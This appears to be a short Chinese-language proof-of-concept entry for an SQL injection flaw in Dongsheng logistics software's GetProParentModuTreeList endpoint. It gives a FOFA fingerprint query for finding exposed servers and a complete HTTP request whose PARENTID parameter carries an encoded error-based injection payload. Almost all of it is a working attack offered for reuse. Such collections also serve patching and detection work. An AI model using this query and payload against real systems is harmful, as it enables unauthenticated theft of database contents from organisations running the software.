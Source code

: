 ## 东胜物流软件GetProParentModuTreeList存在SQL注入漏洞

东胜物流软件GetProParentModuTreeList存在SQL注入漏洞，未经身份验证的远程攻击者除了可以利用SQL注入漏洞获取数据库中的信息。

## fofa

```
body="FeeCodes/CompanysAdapter.aspx" || body="dhtmlxcombo_whp.js" || body="dongshengsoft" || body="theme/dhtmlxcombo.css"
```

## poc

```
GET /MvcShipping/MsBaseInfo/GetProParentModuTreeList?PARENTID=%27+AND+4757+IN+%28SELECT+%28CHAR%28113%29%2BCHAR%2898%29%2BCHAR%28122%29%2BCHAR%28120%29%2BCHAR%28113%29%2B%28SELECT+%28CASE+WHEN+%284757%3D4757%29+THEN+CHAR%2849%29+ELSE+CHAR%2848%29+END%29%29%2BCHAR%28113%29%2BCHAR%28113%29%2BCHAR%2898%29%2BCHAR%28106%29%2BCHAR%28113%29%29%29+AND+%27KJaG%27%3D%27KJaG HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
x-auth-token: 36ef438edd50bf8dd51fba642a82c3b7d272ff38
Content-Type: text/html; charset=utf-8
Connection: close
```

